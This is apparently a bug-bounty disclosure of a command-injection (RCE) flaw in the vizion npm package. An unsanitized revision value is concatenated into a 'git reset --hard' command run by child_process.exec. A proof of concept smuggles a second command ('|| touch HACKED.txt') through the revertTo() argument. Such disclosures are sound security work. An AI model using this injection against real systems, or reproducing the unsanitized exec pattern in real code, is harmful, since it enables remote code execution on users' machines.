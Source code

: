 The issue is an `RCE` triggerable via the module.

This is possible because in the https://github.com/keymetrics/vizion/blob/master/lib/git/git.js#L228 line, the `git reset --hard` command is concatenated with a unsanitized input:

```js
var command = cliCommand(args.folder, "git reset --hard " + args.revision);
```

The `command` variable is so passed to the `exec` function, declared as:
```js
var exec = require('child_process').exec;
```

This makes possible any attacker to control the `revision` attribute passed as `object` in the `<vizion_object>.revertTo()` function, leading to the `RCE impact`.

## Proof of Concept (Credit: [Mik317](https://huntr.dev/app/users/Mik317))
1. First of all, note you have to set accurately your `git` environment
2. Execute the following commands:
```bash
mkdir vizion # Makes a new directory where initialize *git*
cd vizion
git init
echo "TEST_STRING" > test.txt # Create a file named "test.txt"
git add test.txt # Adding to the working tree the new file
git commit
```
3. Create a PoC file like this (in the `vizion` directory):
```js
// poc.js
var vizion = require('vizion');
vizion.revertTo({
	revision : 'f0a1d45936cf7a3c969e4caba96546fd23255796 || touch HACKED.txt', folder : '.' },
	function(err, data) {
		console.log(data);
	});
```
4. Start the `poc.js` file: `node poc.js`
5. A file named `HACKED.txt` will be created
## References:
 - [GitHub Issue](https://github.com/keymetrics/vizion/issues/26)
 - [GitHub Permalink #1](https://github.com/keymetrics/vizion/blob/master/lib/git/git.js#L228)